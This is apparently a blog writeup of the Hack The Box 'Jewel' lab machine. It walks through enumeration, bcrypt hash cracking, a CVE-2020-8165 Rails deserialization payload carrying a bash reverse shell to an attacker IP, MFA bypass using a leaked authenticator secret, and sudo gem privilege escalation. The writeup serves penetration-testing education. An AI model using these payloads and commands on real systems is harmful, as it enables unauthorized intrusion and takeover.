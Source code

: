 ```yaml
---
layout: post
title:  "Hack The Box - Jewel Writeup"
date:   2021-02-13 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Jewel/Header.png)

Jewel is an Medium level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working off of existing CVEs against a somewhat realistic environment.  
![Statistics](../images/HTB-Jewel/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap with write the results to our Extracts folder (`-oA`)  
`>> nmap -Pn -p22,8000,8080 -sC -sV -oA Extracts/Jewel 10.10.10.211`  
![Nmap](../images/HTB-Jewel/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 8000 - HTTP**: A basic websever hosting what appears to be an instance of [Gitweb](https://git-scm.com/book/en/v2/Git-on-the-Server-GitWeb). We should look for source code here.
* **Port 8080 - HTTP**: Another webserver, but this one is running a small blog off of an installation of [Phusion Passenger](https://www.phusionpassenger.com/).

We'll also want to add Jewel.htb to our hosts file.

### Blog
Navigating the Blog on port 8080, we're able to identify a couple of existing users: `Bill` and `Jennifer`. We're also able to create our own user, but do not appear to have the ability to post content of our own. We can, however, edit our account username.  
![Edit User](../images/HTB-Jewel/Info_Blog.png)

### Gitweb
Moving on to the Gitweb content hosted on port 8000, we appear to have open read-only access to the entire blog project repository. After searching through many of the files, we come across the password hashes belonging to both Bill and Jennifer. Based on the `$2a$` at the start of the hash, we know that they're protected using the bcrypt hashing algorthm. This is a very strong and time consuming hash to break, but we can let it run against the `rockyou.txt` list for a bit while we continue into other areas.

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`

### Gemfile
In reference to the title of this box, there's a very strong possibility that our foothold will be something to do with Ruby on Rails. The Gemfile can tell us a lot about the project, including any vulnerabilities within the packages being used. By using tools such as [Hakiri](https://hakiri.io/), we're able to identify a range of vulnerabilities.  
![Gemfile Vulns](../images/HTB-Jewel/Info_Gemfile.png)

## Foothold
Reading through our findings, we eventually come across some interesting information regarding [CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165). It looks like this may be our way in.

### Generating The Payload
Working through the steps provided in the above repo, we're able to put together a payload that should get us a shell onto the box.  
```
code = '`bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

### Reverse Shell
First thing we'll do is set up our listener on the port we provided in the payload generation.  
`>> nc -lvnp 4444`

Going back to our blog post account, there was one area we were able to submit data: Edit User Account. When we try to submit our payload through the UI, we end up with an error due to the input being too long. But by capturing our request through Burpsuite, we're able to manipulate the data after validation takes place.  
![Burp Proxy](../images/HTB-Jewel/Foothold_Burp.png)  

Refreshing the blog site results in triggering our code.  
![Reverse Shell](../images/HTB-Jewel/Foothold_Shell.png)

### User Flag
![User Flag](../images/HTB-Jewel/User_Flag.png)

## Privilege Escalation
With a direct connection into the box, the first thing we'll do is upgrade our shell:  
`>> python -c "import pty;pty.spawn('/bin/bash')"`  
`>> export TERM=xterm;`  

### Backups
Looking around the box, we come across a backup SQL script, again discovering bcrypt password hashes for the Bill and Jennifer users. While we were unsuccessful in cracking the hashes on our first go around, these hashes are different and may be weaker than before.  

Password Hashes:  
`jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO`  
`bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`  

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`  

![Hash Cracking](../images/HTB-Jewel/PrivEsc_Hash.png)

Looks like Bill's password is spongebob. Let's see what he can run as sudo.  
![Sudo Fail](../images/HTB-Jewel/PrivEsc_Sudo1.png)  

### Google Authenticator
A bit different than what we normally encounter, Bill's account is protected by multi-factor authentication. We'll need to find out what he's using and how to get around it.

Back in the /home/bill directory, there's a hidden .google_authenticator configuration file we're able to extract a key from: `2UQI3R52WFCLE6JTLDCSJYMJH4`. Configuring the Google Authenticator plugin for Chrome, we're able to successfully generate a verification token.  

![Google Authenticator](../images/HTB-Jewel/PrivEsc_Authenticator.png)  

### Sudo Gem
Now that we've got Bill's credentials and MFA token, we're able to see that he has the ability to run Ruby's `gem` command as root.  

![Sudo Success](../images/HTB-Jewel/PrivEsc_Sudo2.png)  

Referencing the `gem` section of [GTFOBins](https://gtfobins.github.io/gtfobins/gem/), we're shown how to leverage our access and escalate to root.  
`>> sudo gem open -e "/bin/sh -c /bin/sh" rdoc`  
![Privilege Escalation](../images/HTB-Jewel/PrivEsc_Gem.png)  

### Root Flag
![Root Flag](../images/HTB-Jewel/Root_Flag.png)  